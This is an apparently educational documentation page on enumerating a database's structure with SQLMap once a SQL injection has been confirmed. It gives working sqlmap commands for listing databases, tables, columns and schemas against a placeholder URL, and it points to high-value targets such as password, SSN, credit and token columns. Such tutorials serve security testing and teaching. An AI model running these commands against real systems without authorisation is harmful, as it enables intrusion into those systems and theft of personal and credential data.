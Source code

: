 ```yaml
---
title: Enumerating Database Structure
description: Learn how to explore database structure and schema using SQLMap
---
```


# Enumerating Database Structure

<Tabs defaultValue="overview" className="pt-5 pb-1">
  <TabsList>
    <TabsTrigger value="overview">Overview</TabsTrigger>
    <TabsTrigger value="strategy">Strategy</TabsTrigger>
    <TabsTrigger value="targets">Key Targets</TabsTrigger>
  </TabsList>
  <TabsContent value="overview">
    Once you've confirmed a SQL injection vulnerability, the next step is to enumerate the database structure to understand what data is available. SQLMap provides comprehensive tools for mapping out database schemas, tables, and columns systematically.
  </TabsContent>
  <TabsContent value="strategy">
    An effective database enumeration strategy follows this pattern:
    
    1. **Identify the DBMS** - Determine what database system you're working with
    2. **List all databases** - Get a complete picture of available databases
    3. **Focus on promising databases** - Target databases with likely sensitive data
    4. **Enumerate tables** - Identify tables within target databases
    5. **Examine table structures** - Review column names to locate sensitive data
    6. **Prioritize extraction targets** - Focus on tables/columns with valuable information
  </TabsContent>
  <TabsContent value="targets">
    When enumerating databases, pay special attention to:
    
    - **User tables** - Often named `users`, `members`, `accounts`, `customers`
    - **Authentication tables** - Look for `admin`, `administrators`, `staff`
    - **Financial data** - Tables like `orders`, `payments`, `transactions`
    - **Personal information** - Tables containing `profiles`, `details`, `contacts`
    - **Configuration data** - Tables with `settings`, `config`, `parameters`
  </TabsContent>
</Tabs>

## Database Enumeration Process

<Stepper>
  <StepperItem title="List All Databases">
    <div className="grid grid-cols-1 md:grid-cols-2 gap-4">
      <div>
        <h4>Command</h4>
        
        ```bash
        sqlmap -u "http://www.example.com/vuln.php?id=1" --dbs
        ```
        
        <p className="text-sm mt-2">This retrieves all database names accessible to the current user.</p>
      </div>
      <div>
        <h4>Tips</h4>
        <ul>
          <li>Look for non-default database names that might contain application data</li>
          <li>Note system databases like <code>information_schema</code> or <code>master</code> for potential privilege escalation</li>
          <li>Use <code>--exclude-sysdbs</code> to filter out system databases</li>
        </ul>
      </div>
    </div>
  </StepperItem>
  
  <StepperItem title="Identify Current Database">
    <div className="grid grid-cols-1 md:grid-cols-2 gap-4">
      <div>
        <h4>Command</h4>
        
        ```bash
        sqlmap -u "http://www.example.com/vuln.php?id=1" --current-db
        ```
        
        <p className="text-sm mt-2">Identifies the database currently in use by the application.</p>
      </div>
      <div>
        <h4>Tips</h4>
        <ul>
          <li>The current database often contains the most relevant application data</li>
          <li>This is usually the fastest way to find the main application database</li>
          <li>Use <code>-D database_name</code> to specify a database for further enumeration</li>
        </ul>
      </div>
    </div>
  </StepperItem>
  
  <StepperItem title="List Tables in Database">
    <div className="grid grid-cols-1 md:grid-cols-2 gap-4">
      <div>
        <h4>Command</h4>
        
        ```bash
        sqlmap -u "http://www.example.com/vuln.php?id=1" \
          -D database_name --tables
        ```
        
        <p className="text-sm mt-2">Lists all tables in the specified database.</p>
      </div>
      <div>
        <h4>Tips</h4>
        <ul>
          <li>Look for tables with names like <code>users</code>, <code>admin</code>, <code>accounts</code></li>
          <li>Tables with <code>config</code> or <code>settings</code> may contain valuable information</li>
          <li>Use <code>--search</code> to find tables matching specific patterns</li>
        </ul>
      </div>
    </div>
  </StepperItem>
  
  <StepperItem title="Examine Table Structure">
    <div className="grid grid-cols-1 md:grid-cols-2 gap-4">
      <div>
        <h4>Command</h4>
        
        ```bash
        sqlmap -u "http://www.example.com/vuln.php?id=1" \
          -D database_name -T table_name --columns
        ```
        
        <p className="text-sm mt-2">Reveals column names and data types in the specified table.</p>
      </div>
      <div>
        <h4>Tips</h4>
        <ul>
          <li>Look for columns like <code>username</code>, <code>password</code>, <code>email</code></li>
          <li>Note data types to understand what information might be stored</li>
          <li>Columns with names containing <code>hash</code> or <code>salt</code> often store credentials</li>
        </ul>
      </div>
    </div>
  </StepperItem>
</Stepper>

## Advanced Enumeration Techniques

<Tabs defaultValue="schema" className="pt-5 pb-1">
  <TabsList>
    <TabsTrigger value="schema">Schema Mapping</TabsTrigger>
    <TabsTrigger value="counting">Record Counting</TabsTrigger>
    <TabsTrigger value="search">Search Features</TabsTrigger>
  </TabsList>
  
  <TabsContent value="schema">
    <div className="grid grid-cols-1 md:grid-cols-2 gap-4">
      <div>
        <h4>Complete Schema Extraction</h4>
        
        ```bash
        sqlmap -u "http://www.example.com/vuln.php?id=1" --schema
        ```
        
        <p>This command retrieves the complete database schema, including all databases, tables, and columns. It provides a comprehensive view of the database structure.</p>
      </div>
      <div>
        <h4>Tips & Considerations</h4>
        <ul>
          <li>Can generate large outputs for complex databases</li>
          <li>Use <code>--output-dir=path</code> to save results for later analysis</li>
          <li>Consider <code>--exclude-sysdbs</code> to focus on application databases</li>
          <li>For large environments, target specific databases instead</li>
        </ul>
      </div>
    </div>
  </TabsContent>
  
  <TabsContent value="counting">
    <div className="grid grid-cols-1 md:grid-cols-2 gap-4">
      <div>
        <h4>Counting Table Records</h4>
        
        ```bash
        sqlmap -u "http://www.example.com/vuln.php?id=1" \
          -D database_name -T table_name --count
        ```
        
        <p>This command returns the number of records in a table without retrieving the actual data.</p>
      </div>
      <div>
        <h4>Benefits</h4>
        <ul>
          <li>Assess table size before attempting data extraction</li>
          <li>Identify potentially valuable tables based on record count</li>
          <li>Plan extraction strategy for large tables</li>
          <li>Minimize unnecessary data retrieval</li>
        </ul>
      </div>
    </div>
  </TabsContent>
  
  <TabsContent value="search">
    <div className="grid grid-cols-1 md:grid-cols-2 gap-4">
      <div>
        <h4>Targeted Search Features</h4>
        
        ```bash
        # Search for tables matching a pattern
        sqlmap -u "http://www.example.com/vuln.php?id=1" \
          --search -T admin
        
        # Search for columns matching a pattern
        sqlmap -u "http://www.example.com/vuln.php?id=1" \
          --search -C password
        ```
        
        <p>These commands search for specific patterns in table or column names across all accessible databases.</p>
      </div>
      <div>
        <h4>Common Search Targets</h4>
        <ul>
          <li>Tables: <code>user</code>, <code>admin</code>, <code>account</code>, <code>member</code></li>
          <li>Columns: <code>password</code>, <code>credit</code>, <code>ssn</code>, <code>email</code></li>
          <li>Configuration: <code>config</code>, <code>setting</code>, <code>parameter</code></li>
          <li>Sensitive data: <code>secret</code>, <code>token</code>, <code>key</code></li>
        </ul>
      </div>
    </div>
  </TabsContent>
</Tabs>

